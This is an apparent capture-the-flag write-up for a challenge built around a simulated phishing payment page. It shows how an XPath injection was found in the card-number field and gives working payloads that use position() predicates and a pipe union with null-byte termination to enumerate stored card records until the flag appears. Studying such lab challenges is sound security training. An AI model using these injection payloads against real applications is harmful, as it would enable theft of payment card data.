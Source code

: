 # Fraudulent e-mail

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our
customers have come across this scam.

Identifify all card numbers entered into the fraudulent webpage (we have to report incident and its details to
CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

The email contains a link
to http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8

Visiting the link brings us to a phishing website. I entered random data.

![](portal.png)

There is a client side validation which prevents you from sending invalid data so either disable JS or use some
HTTP client or proxy.

I started to fuzz the inputs and got lucky with `card-number=1111111111111111aaa`.
Server responded with:

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid predicate in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Looks like an **XPath injection** vulnerability.

Let's try some interesting predicates like `card-number=*`:

```
This card 4556-1329-8889-9614 is broken.
```

Okay, that's promising. The asterisk got evaluated. Now we just need to enumerate all the cards.

My guess is that the database might look something similar to this:

```xml

<cards>
    <card number="8888999977771111" holder-name="John" cvv="889"/>
    <card number="8888999977779566" holder-name="Karl" cvv="859"/>
</cards>
```

And the XPath query something like this:

```
/cards/card[@number= ${args.NUMBER} ]
```

I found two different payloads how to enumerate the cards:

- `a or position()=5` - using `position()` function
    - full query `/cards/card[@number=a or position()=5]`
- `a] | /*/*[5]NULL_BYTE` - using pipe (`|`) operator combine expressions and [terminating the payload with NULL_BYTE](https://www.thehacker.recipes/web/inputs/null-byte-injection)
    - full query `/cards/card[@number=a] | /*/*[5]NULL_BYTE]`

The trick is to keep enumerating the cards until you find the flag. Some cards have missing
numbers so just don't stop and keep enumerating. The correct position is `128`:

```html

<div class="alert alert-danger" role="alert">
    <p>This card <strong>FLAG{0BF0-RREd-vAK3-1Ayi}</strong> is broken.</p>
    <p>Please enter <strong>your another card number</strong>!</p>
</div>
```
